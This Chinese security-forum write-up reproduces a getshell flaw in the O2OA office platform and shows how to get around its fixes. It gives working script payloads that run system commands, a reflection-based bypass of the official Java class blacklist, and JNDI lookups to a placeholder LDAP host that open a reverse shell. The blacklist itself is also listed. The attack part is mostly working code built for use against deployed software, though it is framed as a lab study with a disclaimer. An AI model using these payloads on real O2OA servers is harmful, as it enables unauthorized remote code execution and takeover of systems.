# o2oa getshell 漏洞绕过技术探寻-先知社区

> **来源**: https://xz.aliyun.com/news/17137  
> **文章ID**: 17137

---

# o2oa getshell 漏洞绕过技术探寻

## 前言

​

\*\*文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担

## 环境搭建

第一可以直接官方下载源码  
<https://github.com/o2oa/>

或者 docker 搭建  
这里我就 docker 搭建了

```
┌──(root㉿kali)-[/home/lll/Desktop/GCCTF]
└─# docker pull oxnme/o2oa:6.1.3
6.1.3: Pulling from oxnme/o2oa
61e03ba1d414: Pull complete 
4afb39f216bd: Pull complete 
e489abdc9f90: Pull complete 
999fff7bcc24: Pull complete 
36e9aec1f412: Pull complete 
61d57e5de2da: Pull complete 
1a77a5c7e9fb: Pull complete 
Digest: sha256:9fcda791a5b8ac8e5507e652aa279fec5f5949a157a7f0058e519530ae706917
Status: Downloaded newer image for oxnme/o2oa:6.1.3
docker.io/oxnme/o2oa:6.1.3
```

然后启动

```
docker run --name o2oa-container -p 80:80 -p 20010:20010 -p 20020:20020 -p 20030:20030 -d oxnme/o2oa:6.1.3
```

访问xadmin/ o2oa@2022  
<http://192.168.177.146/x_desktop/index.html>  
  
这样即为搭建成功

## 漏洞复现

这里其实原理就是很简单就是可以执行 js 代码  


可以看见在 2020 年就暴露出来了，只是后续一直是修复绕过

首先我们进入后台后  
  
点击服务管理  


我这里是因为已经配置过了  
在页面可以输入如下的 js 代码

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json");
```

然后我们记得需要关闭

  
当然可以不关闭，只是关闭了更简单

按照给的提示访问接口  


需要改为 post，然后 json 格式  
  
可以看到命令执行成功

## 漏洞修复

漏洞修复就很简单，官方只是加了黑名单  
可以参考<https://github.com/o2oa/o2oa/issues/158>

打开下载的 O2OA 软件的代码。被阻止的 Java 类在 /configSample/general.json 文件中进行了硬编码。但是可以使用 Java 反射方法绕过列入黑名单的类。

```
{
    "scriptingBlockedClasses": [
        "java.util.zip.ZipOutputStream",
        "java.io.RandomAccessFile",
        "java.net.Socket",
        "java.util.zip.ZipInputStream",
        "java.nio.file.Files",
        "java.lang.System",
        "java.net.URL",
        "java.lang.Runtime",
        "java.io.FileWriter",
        "java.io.FileOutputStream",
        "javax.script.ScriptEngineManager",
        "java.io.File",
        "java.net.ServerSocket",
        "java.nio.file.Paths",
        "javax.script.ScriptEngine",
        "java.util.zip.ZipFile",
        "java.lang.ProcessBuilder",
        "java.net.URI",
        "java.nio.file.Path"
 ],
}
```

首先这个黑名单感觉和没有差不多，只要能利用 jdk 的类，造成危害就很容易

## 修复绕过

然后我再去拉了一个 docker



四个 g，真服了 wc

```
┌──(root㉿kali)-[/home/lll/Desktop]
└─# docker run --name o2server -p 80:80 -p 20010:20010 -p 20020:20020 -p 20030:20030 -d o2oa/o2server:9.0.1
```

还是一样的步骤  
  
但是访问就是 404  
我真服了，我看别人的是一点问题没有，然后看了看日志

```
┌──(root㉿kali)-[/home/lll/Desktop]
└─# docker logs 149377f65335
o2oa/o2server init data directory!
 * Starting MySQL database server mysqld
   ...done.
                                        
                                        
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@    
    @@@                          @@@    
    @@@                          @@@    
    @@@@@@@@@@@@@@@@@@@@@@@@@@   @@@    
                           @@@   @@@    
                           @@@   @@@    
    @@@   @@@@@@@@@@#      @@@   @@@    
    @@@           @@@      @@@   @@@    
    @@@           @@@      @@@   @@@    
    @@@   @@@@@@@@@@#      @@@   @@@    
    @@@   @@@              @@@   @@@    
    @@@   @@@              @@@   @@@    
    @@@   @@@@@@@@@@@@@@@@@@@@   @@@    
    @@@                          @@@    
    @@@                          @@@    
    @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@    
                                        
                                        
>>> server directory:/opt/o2server
>>> version:9.0.1
>>> java:11.0.21
>>> os:Linux
>>> nodeAgent port:20010, encrypt:true
 help                                   show usage message.
 start|stop [all]                       start stop all enable server.
 start|stop data                        start stop data server.
 start|stop storage                     start stop storage server.
 start|stop center                      start stop center server.
 start|stop application                 start stop application server.
 start|stop web                         start stop web server.
 start init                             start init server then start all enable server.
 setPassword (oldpasswd) (newpasswd)    change initial manager password.
 version                                display version.
 exit                                   exit after stop all enable server.
 ctl -<argument> option                 system control command, no argument display help.

2024-12-26 22:26:10.878 [Thread-2] INFO com.x.server.console.server.init.InitServerTools - deploy war:/opt/o2server/x_program_init.war.
请通过http服务访问80端口来初始化服务器密码,本机地址:......, 访问地址:http://....
```

需要我去初始化  
  
强制我修改管理员的密码，所以之后应该没有弱密码了吧

然后需要等一会，但是我这里等着等着就宕机了，如果和我一样的问题可以直接去下windows 版本的

<http://mirror1.o2oa.net/versionList.html>

只需要运行启动脚本  


然后访问 80 端口

然后这里弱密码需要更换一下，参考官方文档

<https://github.com/o2oa/o2oa/tree/9.0.3?tab=readme-ov-file>



修复绕过我们可以直接看 issues

参考<https://github.com/o2oa/o2oa/issues/158>

```
{
    "scriptingBlockedClasses": [
        "java.util.zip.ZipOutputStream",
        "java.io.RandomAccessFile",
        "java.net.Socket",
        "java.util.zip.ZipInputStream",
        "java.nio.file.Files",
        "java.lang.System",
        "java.net.URL",
        "java.lang.Runtime",
        "java.io.FileWriter",
        "java.io.FileOutputStream",
        "javax.script.ScriptEngineManager",
        "java.io.File",
        "java.net.ServerSocket",
        "java.nio.file.Paths",
        "javax.script.ScriptEngine",
        "java.util.zip.ZipFile",
        "java.lang.ProcessBuilder",
        "java.net.URI",
        "java.nio.file.Path"
 ],
}
```

以上的类被加入了黑名单

我们尝试一下以前的 paylaod

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json");
```

  
可以看到是不可以使用了

我们修改为反射绕过

```
var a = mainOutput(); 
function mainOutput() {
    var clazz = Java.type("java.lang.Class");
    var rt = clazz.forName("java.lang.Runtime");
    var stringClazz = Java.type("java.lang.String");

    var getRuntimeMethod = rt.getMethod("getRuntime");
    var execMethod = rt.getMethod("exec",stringClazz);
    var runtimeObject = getRuntimeMethod.invoke(rt);
    execMethod.invoke(runtimeObject,"calc.exe");
};
```

  
可以看到成功绕过了

然后在新版本又作了其他的修复，这里我就懒得搭建环境了，就是把 Class ban 了

<https://github.com/o2oa/o2oa/issues/159>  
我们看官方的修复方案  
  
还是一样的加黑名单，但是绕过方法还是太多了

把 class 加入进去

也就是不能再通过 clazz.forName 去获取我们的 Runtime 了

但是我们还可以使用 classloader 直接去加载



  
可以看见也是可以的

当然了还有更多的方法

比如原生的 jndi

```
var a = mainOutput(); 
function mainOutput() {
    var test = Java.type("javax.naming.InitialContext");
aaa.doLookup("ldap://vpsip:1389/Deserialization/CommonsBeanutils1/ReverseShell/vpsip/250");
};
```

这个需要配合我们的工具来进行一个利用

注意你的 jdk 版本，windows 内置了 jdk 版本，我们可以使用低版本



然后

```
var a = mainOutput(); 
function mainOutput() {
var test = Java.type("javax.naming.InitialContext");
test.doLookup("ip:1389/Basic/ReverseShell/ip/2333");
};
```

运行即可，这里我没有更换，可以参考

<https://xz.aliyun.com/t/16872?time__1311=Gui%3DGK0IqGxRx05q4%2BxCq7I4KNCjm4DOAfeD>
